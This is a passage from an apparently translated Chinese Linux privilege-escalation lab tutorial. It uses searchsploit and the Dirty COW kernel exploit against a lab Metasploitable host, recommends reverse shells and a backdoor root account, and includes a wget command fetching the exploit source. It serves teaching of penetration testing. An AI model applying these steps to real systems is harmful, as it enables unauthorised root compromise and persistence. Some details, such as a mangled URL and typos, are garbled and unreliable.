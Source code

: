 7.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

使用 searchsploit 工具查找可能的内核漏洞。

```
# update to the latest version
sudo apt update && sudo apt install exploitdb# search for kernel exploits on the target system
searchsploit linux kernel ubuntu 16.04
```

![](img/a09f23c056cf993313fb583084cec2fc.png)

**Dirty COW(CVE 2016–5195)** Dirty COW(Dirty copy-on-write)是 Linux 内核漏洞，影响内核版本 2.2 到 3.9 的系统。菲尔·奥斯特(Phil Oester)在 2016 年发现了这个漏洞。

背景信息:[https://dirty cow . ninja .](https://dirtycow.ninja.)
易受攻击的内核版本:2.2–3.9

我们将使用 metasploitable(内核 2.4)机器来利用这个漏洞。我的建议是在目标机器上设置两个独立的反向 shells 来运行这个漏洞。这样，在攻击正在执行或攻击失败时，与目标机器的连接将保持不变。我们还将添加一个后门帐户，这样即使在漏洞被执行后，也可以保持根用户访问。

受害者 01 (Ditry Cow)
-元可移植(x86)
- IP 地址:192.168.62.162
-内核版本:2 . 6 . 24–16

8.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

下载恶意利用

```
file=dirty
wget [https://raw.githubusercontent.com/FireFart/dirtycow/master/${file}.c](https://raw.githubusercontent.com/FireFart/dirtycow/master/${file}.c) -O /tmp/${file}.c
```

![](img/5c801bf6198e1929c369b485b1b88cf4.png)
